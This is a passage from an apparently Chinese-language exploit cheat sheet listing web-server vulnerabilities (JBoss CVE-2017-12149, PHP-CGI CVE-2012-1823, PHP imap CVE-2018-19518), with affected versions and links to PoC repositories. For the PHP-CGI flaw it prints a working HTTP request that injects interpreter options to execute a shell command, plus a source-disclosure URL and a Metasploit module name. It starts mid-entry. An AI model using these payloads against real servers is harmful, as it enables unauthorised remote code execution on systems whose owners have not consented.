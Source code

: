 - 影响版本
    - JBOSS 5.0.0 ~ 5.2.2

- POC | Payload | exp
    - [yunxu1/jboss-_CVE-2017-12149](https://github.com/yunxu1/jboss-_CVE-2017-12149)
    - [jreppiks/CVE-2017-12149](https://github.com/jreppiks/CVE-2017-12149)
    - https://github.com/vulhub/vulhub/tree/master/jboss/CVE-2017-12149

## PHP

**CVE-2012-1823 PHPCGI 远程代码执行漏洞**
- 简介

    5.3.12 之前和 5.4.2 之前的 5.4.x 中的 sapi/cgi/cgi_main.c 在配置为 CGI 脚本（aka php-cgi）时，不能正确处理缺少=（等号）字符的查询字符串 ，它允许远程攻击者通过在查询字符串中放置命令行选项来执行任意代码，这与在"d"情况下缺少跳过某些 php_getopt 有关。

- 影响版本

    - php < 5.3.12
    - php < 5.4.2

- 文章
    - [PHP-CGI远程代码执行漏洞 (CVE-2012-1823) 分析](https://paper.seebug.org/297/)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/php/CVE-2012-1823/

    `http://your-ip:8080/index.php?-s` 即爆出源码

    发送如下数据包,可见 Body 中的代码已被执行:
    ```
    POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
    Host: example.com
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
    ```

- MSF Module
    ```
    use exploit/multi/http/php_cgi_arg_injection
    ```

**CVE-2018-19518 PHP imap 远程命令执行漏洞**
- 简介

    php imap 扩展用于在 PHP 中执行邮件收发操作.其 imap_open 函数会调用 rsh 来连接远程 shell,而 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能 (也就是说,在 debian 系列系统中,执行 rsh 命令实际执行的是 ssh 命令) .

    因为 ssh 命令中可以通过设置 -oProxyCommand= 来调用第三方命令,攻击者通过注入注入这个参数,最终将导致命令执行漏洞.

- 影响版本
    - php 5.6.0 ~ 5.6.38
    - php 7.0.0 ~ 7.0.32
    - php 7.1.0 ~ 7.1.24
    - php 7.2.0 ~ 7.2.12
